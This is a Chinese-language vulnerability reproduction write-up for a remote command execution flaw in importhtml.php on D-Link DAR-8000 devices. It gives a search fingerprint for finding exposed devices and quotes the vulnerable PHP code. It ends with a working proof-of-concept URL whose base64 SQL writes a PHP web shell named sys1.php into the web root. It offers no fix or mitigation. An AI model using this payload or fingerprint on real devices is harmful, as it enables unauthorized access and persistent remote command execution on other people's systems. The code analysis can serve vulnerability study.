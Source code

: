 # D-Link DAR-8000 importhtml.php 远程命令执行漏洞

# D-Link DAR-8000 importhtml.php 远程命令执行漏洞

## 漏洞描述

D-Link DAR-8000 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

```
D-Link DAR-8000
```

## 网络测绘

```
body="mask.style.visibility"
```

## 漏洞复现

登录页面



![](/images/202202162227588.png)



出现漏洞的文件 **importhtml.php**

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```

跟踪exportHtmlMail函数

```php
function exportHtmlMail($filename,$sql){
	Header( "Expires: 0" );
	Header( "Pragma: public" );
	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );
	Header( "Cache-Control: public");
	Header( "Content-Type: application/octet-stream" );
	header("Accept-Ranges: bytes");
	header("Content-Disposition: attachment; filename=$filename.html");
	echo "<html>\n";
	echo "<head><title>报表</title></head>\n";
	echo "<body>\n";
	$conn = connOther();
	$result = mysql_query($sql,$conn);
	while ($data= mysql_fetch_array($result)){
		$post_content = "";
		if($data['mail_file_path'] == "(null)"){
			$post_content = "<font color=red>内容审计未启用</font>";
		}
		else{
			$post_filename=$data['mail_file_path'];
			$ifother = "";
			$ifother = ifExistOther($post_filename);
			if($ifother!=""){
				$post_filename = $ifother;
			}
			$str = "/usr/bin/cap2con $post_filename pop";
			system($str,$returnvalue);
			$post_filename=str_replace(".cap",".eml",$post_filename);
			$post_content = file_get_contents($post_filename);
			$rec=new mime_decode;
			$post_content=$rec->decode_mime_string($post_content);
			//...
		}
	}
}
```

这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控

```php
$str = "/usr/bin/cap2con $post_filename pop";
```

验证POC

```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```

访问成功后会触发下载日志文件，再访问 sys1.php

![](/images/202202162227990.png)

